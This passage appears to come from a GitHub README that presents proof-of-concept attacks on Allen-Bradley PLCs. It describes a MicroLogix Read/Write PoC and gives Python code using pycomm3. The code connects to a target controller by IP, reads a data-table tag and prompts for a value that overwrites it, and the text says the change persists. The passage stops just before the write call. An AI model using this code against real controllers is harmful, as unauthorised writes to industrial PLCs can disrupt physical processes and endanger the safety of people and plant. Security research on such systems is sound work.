 ```python
elif "C" in tag:
  print("[-] 'C' tag currently not supported.")

else:
  print("[-] Invalid tag.")
```

### Allen-Bradley MicroLogix Read/Write PoC
---

The **Allen-Bradley MicroLogix Read/Write PoC** reads a the current value of specified "tag" (or a local variable) on a target MicroLogix PLC, then prompts the user for the new value to send and overwrite. This PoC demonstrates a more sophisticated attack on the PLC's internal logic is possible.

- Unlike the **ControlLogix Read/Write PoC**, the value set here is not volatile.  Meaning once the value is sent to the PLC, the value is written and remains.

- This PoC received the least amount of time, so it is the least robust and requires more development.


**Install Dependencies:**
```python
pip install pycomm3
```


**Proof-of-Concept:**
```python
from pycomm3 import SLCDriver
import sys

# Target information
print("[+] Allen-Bradley MicroLogix")
ip = input(" o  Input IP: ")

### Hardcoded Tags because SLCDriver does not support tag dumping:
# outputs = O0:0
# Inputs = I1:0
# Status = S2:0
# Binary = B3:0
# Timer = T4:0
# Counter = C5:0
# Control = R6:0
# Integer = N7:0
# Float = F8:0
# Custom Types = N 10+

# Example tag being used
tag = 'N7:0'

# Attempt Connection
try:
  obj = SLCDriver(ip)
  obj.open()
except:
  print("[-] Connection failed.")
  sys.exit()

# Read Current Value
first_int = obj.read(tag)
print(f"\n[+] Value before the Write: '{first_int}'")

value = input("[+] Input new integer value to set: ")

# Write Next Value
```